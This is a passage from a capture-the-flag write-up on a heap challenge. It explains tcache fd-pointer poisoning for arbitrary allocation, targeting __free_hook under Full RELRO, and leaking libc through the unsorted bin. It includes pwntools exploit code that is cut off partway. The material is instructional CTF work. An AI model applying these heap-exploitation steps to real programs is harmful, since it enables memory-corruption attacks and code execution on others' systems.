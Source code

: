 ### Arbitrary malloc
Now assume that C was a free chunk. We could overwrite its `fd` pointer with an address we would like, malloc twice and get it and write to it! To demonstrate briefly:

```python
                # Freelist size 0x100:
                 # 0x0 (empty)
free(C)          # C -> 0x0

# Overwrite C's fd pointer with 0xf00dbabe 
# because we would like a pointer to that address.
                 # C -> 0xf00dbabe -> ???
C = malloc(0xf8) # 0xf00dbabe -> ???

foodbabe=malloc(0xf8)
```
Now we are also able to write to that address.

Because `Full RELRO` is enabled, we are not able to overwrite anything in the `GOT`. However, we could overwrite `__free_hook` instead! 

*All we need now is a `libc` leak*

### Leaking libc
*After solving the challenge, I realized leaking `libc` is super easy! Originally, I freed a chunk with a fake size of larger than 0x408 in order to place it in the unsorted bin, doing so additionally required bypassing 2 security checks... much to learn:)!*  

A tcache bin has a max capacity of 7 chunks. So if we fill that one up, the eigth freed chunk will be placed inside the unsorted bin. This will cause a `libc` address to be written to its `fd` ptr. If we `malloc` it again and do not enter any string contents, we will be able to read the `libc` address.

```python
# Fill up tcache bins
for i in range(9): #8+1, in order to prevent top chunk consolidation
    add(0x178, "")
for i in range(8):
    free(i)

# Leak libc
add(0xf8, "") # Request is served by unsorted bin
show(0)
>>> \x10\x1e\x8e\x1a\x94\x7f <<<
```

### Putting it all together

`exploit.py`

```python
#!/usr/bin/python2

from pwn import *
import sys

def add(size, data):
    p.sendlineafter("> ", "M")
    p.sendlineafter("> ", str(size))
    p.sendlineafter("> ", data)

def free(index):
    p.sendlineafter("> ", "F")
    p.sendlineafter("> ", str(index))

def show(index):
```